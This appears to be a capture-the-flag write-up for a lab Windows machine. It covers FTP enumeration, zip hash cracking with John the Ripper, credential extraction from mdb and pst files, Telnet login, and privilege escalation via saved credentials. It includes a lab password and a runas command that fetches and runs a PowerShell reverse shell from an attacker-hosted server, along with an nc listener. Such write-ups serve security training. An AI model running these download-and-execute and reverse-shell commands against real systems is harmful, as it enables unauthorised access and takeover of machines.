

# USER
By scanning the machine it was evident that a FTP port was open. On it was a zip file.

Unzipping a Password Protected File and Error: unsupported compression method 99

```
Requires "p7zip"
```

Tried cracking using john the ripper

```
zip2john <file.zip> > hash.txt
john --format=zip hash.txt
```

Found that using TRACE on a HTTP server can lead to Cross-Site Tracing attacks XST

```
But NMAP was wrong, the HTTP server rejects TRACE commands
```

Found a password to the zip file in the backup.mdb by usings strings

Found a tool called "readpst"

Converted the file to mbox and found details:

```
john@megacorp.com
security@accesscontrolsystems.com

4Cc3ssC0ntr0ller
```

Trying the different permutations give login:

```
security
4Cc3ssC0ntr0ller
```

On the 10.10.10.98 Telnet server. This provides access to the command line


# ROOT

CMDKEY shows the saved credenials of a user

This means, I think we can use the

```
runas \savecred"
```

Command to run root commands

By running a reverse shell as the admin, we could get priv esc


You need a web server for the payload download

```
python2 -m SimpleHttpServer
```

The listener for the reverse shell

```
nc -lvnp <PORT IN THE SCRIPT>
```


And the command run on the user to download the shell

```
powershell IEX (New-Object Net.WebClient).DownloadString('http://<ip_of_SimpleHttpServer/rv.ps1')
```

In total the command below ran the shell as admin

```
runas /savecred /user:ACCESS\Administrator "powershell IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.16/rv.ps1')"
```

This provided us with a root shell
